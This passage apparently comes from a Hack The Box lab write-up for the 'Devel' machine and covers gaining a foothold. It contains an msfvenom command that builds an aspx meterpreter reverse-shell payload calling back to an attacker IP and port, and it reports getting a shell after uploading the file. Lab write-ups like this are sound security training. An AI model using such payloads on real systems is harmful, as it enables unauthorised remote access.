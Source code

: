 ![Alt text](/assets/img/htb/devel/dev_002.png)

## Gaining a Foothold (Box 1)

After creating a `aspx` file and uploading it using the command 

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.108 LPORT=4444 -f aspx >reverse.aspx

```
I was able to upload it and got a revese shell using msfcosole
![Alt text](/assets/img/htb/devel/dev_003.png)


# Initial Enumeration
## System Enumeration
